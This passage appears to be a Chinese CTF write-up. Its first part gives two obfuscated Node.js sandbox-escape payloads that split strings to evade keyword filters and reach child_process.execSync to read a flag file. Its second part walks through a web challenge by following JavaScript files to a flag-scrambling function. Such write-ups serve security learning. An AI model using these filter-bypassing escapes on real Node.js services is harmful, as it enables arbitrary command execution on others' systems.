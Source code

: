payload1:

```
(function (){
    TypeError[`${`${`prototyp`}e`}`][`${`${`get_pro`}cess`}`] = f=>f[`${`${`constructo`}r`}`](`${`${`return proc`}ess`}`)();
    try{
        Object.preventExtensions(Buffer.from(``)).a = 1;
    }catch(e){
        return e[`${`${`get_pro`}cess`}`](()=>{}).mainModule[`${`${`requir`}e`}`](`${`${`child_proces`}s`}`)[`${`${`exe`}cSync`}`](`cat /flag`).toString();
    }
})()
```



payload2

`join`拼接字符串

```
(()=>{ TypeError[[`p`,`r`,`o`,`t`,`o`,`t`,`y`,`p`,`e`][`join`](``)][`a`] = f=>f[[`c`,`o`,`n`,`s`,`t`,`r`,`u`,`c`,`t`,`o`,`r`][`join`](``)]([`r`,`e`,`t`,`u`,`r`,`n`,` `,`p`,`r`,`o`,`c`,`e`,`s`,`s`][`join`](``))(); try{ Object[`preventExtensions`](Buffer[`from`](``))[`a`] = 1; }catch(e){ return e[`a`](()=>{})[`mainModule`][[`r`,`e`,`q`,`u`,`i`,`r`,`e`][`join`](``)]([`c`,`h`,`i`,`l`,`d`,`_`,`p`,`r`,`o`,`c`,`e`,`s`,`s`][`join`](``))[[`e`,`x`,`e`,`c`,`S`,`y`,`n`,`c`][`join`](``)](`cat /flag`)[`toString`](); } })()
```



<a href='https://xz.aliyun.com/t/7184#toc-10' target="_blank">Node.js 常见漏洞学习与总结</a>



## [b01lers2020]Welcome to Earth

题目没有什么难度，不过也给我提了一个醒。以前看到 Js 文件一般都是直接跳过，，以后要对Js 文件多加留意

payload：

因为回自动跳转到 /die/ ,用burp suite 抓包，总流程如下

/  --> /chase --> /leftt  --> /shoot --> /door  --> /static/js/door.js  --> /open --> /static/js/open_sesame.js  -->    /fight   -->  /static/js/fight.js  得到如下

```javascript
// Run to scramble original flag
//console.log(scramble(flag, action));
function scramble(flag, key) {
  for (var i = 0; i < key.length; i++) {
    let n = key.charCodeAt(i) % flag.length;
    let temp = flag[i];
    flag[i] = flag[n];
    flag[n] = temp;
  }
  return flag;
}

function check_action() {
  var action = document.getElementById("action").value;
  var flag = ["{hey", "_boy", "aaaa", "s_im", "ck!}", "_baa", "aaaa", "pctf"];

  // TODO: unscramble function
}
```
